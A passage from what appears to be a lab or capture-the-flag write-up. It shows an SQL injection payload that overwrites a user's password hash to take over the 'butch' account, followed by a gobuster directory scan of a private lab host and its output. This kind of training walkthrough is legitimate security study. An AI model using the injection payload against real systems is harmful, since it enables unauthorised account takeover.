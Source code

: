 I tested all of these using this payload, and then attempted to login with `butch:hello`.&#x20;

{% code overflow="wrap" %}
```sql
'; UPDATE users SET password_hash = 'HASH' WHERE username='butch';--
```
{% endcode %}

We can then login to view the dashboard:

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

### Gobuster --> C# RCE

I ran a `gobuster` scan on the web appliation and found a `/dev` directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.208.63:450/ -t 100 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.208.63:450/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/21 12:40:03 Starting gobuster in directory enumeration mode
===============================================================
/dev                  (Status: 301) [Size: 153] [--> http://192.168.208.63:450/dev/]
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
